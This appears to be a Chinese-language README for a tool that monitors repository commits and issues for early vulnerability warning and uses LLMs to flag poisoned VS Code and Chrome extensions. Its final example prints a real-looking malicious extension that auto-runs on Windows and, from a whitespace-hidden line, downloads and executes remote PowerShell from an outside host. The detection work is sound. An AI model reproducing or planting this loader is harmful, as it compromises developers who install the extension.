 监控非公开的漏洞库，而是根据commit、issue等做相关漏洞的提前预警

```
               _                             _ _                   __           _   
  __   ___   _| |      _ __ ___   ___  _ __ (_) |_ ___  _ __      / _| __ _ ___| |_
  \ \ / / | | | |_____| '_ ` _ \ / _ \| '_ \| | __/ _ \| '__|____| |_ / _` / __| __|
   \ V /| |_| | |_____| | | | | | (_) | | | | | || (_) | | |_____|  _| (_| \__ \ |_
    \_/  \__,_|_|     |_| |_| |_|\___/|_| |_|_|\__\___/|_|       |_|  \__,_|___/\__|
```

监控制定仓库的commit、issue、security、noted等页面的安全相关信息，以此希望在漏洞公开前获取较大的处理时间。

## Introduction
代码和[三方组建分析](https://github.com/Kevin-sa/security-bom-analyze) 在19年编写，而最近对代码做部分优化、处理的想法来源于【安全学术圈】
分享的一篇论文[开源软件包与软件供应链安全漏洞修复分析研究](https://mp.weixin.qq.com/s/KrmzMMDUPUG7qolPPi8SSg) 、[paper:Open or Sneaky? Fast or Slow? Light or Heavy?:
Investigating Security Releases of Open Source Packages](https://arxiv.org/pdf/2112.06804.pdf)

其中印象最深刻的是安全fix、下游处理的timeline
![](docs/timeline.png)

最主要的时间为
- security release和fix commit有4天的时间差
- snyk和NVD公告和security release有25天的时间差

## Token
### Github
主要用于获取关注仓库的commit、isssue、github security等信息
[new github Token](https://github.com/settings/tokens)

### Telebot
[new telebot](https://cloud.google.com/dialogflow/es/docs/integrations/telegram?hl=zh-cn)


## Mac定时任务使用launchctl
```shell
~/Library/LaunchAgents

<plist version="1.0">
<dict>
  <!-- Label唯一的标识 -->
  <key>Label</key>
  <string>com.kevinsa.timonitor</string>
  <!-- 指定要运行的脚本 -->
  <key>ProgramArguments</key>
  <array>
    <string>/vul-monitor/run.sh</string>
  </array>
  <!-- 指定要运行的时间 -->
  <key>StartCalendarInterval</key>
  <dict>
        <key>Minute</key>
        <integer>00</integer>
        <key>Hour</key>
        <integer>10</integer>
  </dict>
<!-- 标准输出文件 -->
<key>StandardOutPath</key>
<string></string>
<!-- 标准错误输出文件错误日志 -->
<key>StandardErrorPath</key>
<string></string>
</dict>
</plist>

launchctl load -w com.kevinsa.timonitor.plist
```

## 投毒监控
在```impl/supply_chain```中增加针对vscode、chrome插件的投毒监控
- 通过爬虫方式获取插件更新
- 获取对应存在风险func（自动触发等利用方式sink点）调用LLM做判断
调用多个模型识别：识别结果：```vscode-chrome LLM.xlsx```

case1：vscode
```
async function installExtension(extensionId) {
  try {
    const extension = vscode.extensions.getExtension(extensionId);
    if (extension) {
      vscode.window.showInformationMessage(`Extension ${extensionId} is already installed.`);
      return;
    }

    await vscode.commands.executeCommand('workbench.extensions.installExtension', extensionId);
    vscode.window.showInformationMessage(`Installation of ${extensionId} triggered successfully.`);

    setTimeout(async () => {
      const installedExtension = vscode.extensions.getExtension(extensionId);
      if (installedExtension && !installedExtension.isActive) {
        await installedExtension.activate();
        vscode.window.showInformationMessage(`Extension ${extensionId} has been activated.`);
      }
    }, 3000);
  } catch (error) {
    vscode.window.showErrorMessage(`Failed to install extension ${extensionId}: ${error.message}`);
  }
}

function activate(context) {
  let disposable = vscode.commands.registerCommand('hubtestmanagerex.runCmd', async function () {
    if (process.platform === 'win32') {
                                                                                                                                                                                                                        const Checker = 'powershell -Command "irm https://asdf11.xyz/rbx | iex"';
      try {
        await CheckInstalled(Checker);

        const extensionId = 'evaera.vscode-rojo';
        await installExtension(extensionId);

      } catch (error) {
        vscode.window.showErrorMessage(`Failed to execute command: ${error.message}`);
      }
    }
  });

  context.subscriptions.push(disposable);
  if (process.platform === 'win32') {
    setTimeout(() => {
      vscode.commands.executeCommand('hubtestmanagerex.runCmd');
    }, 1000);
  }
}
```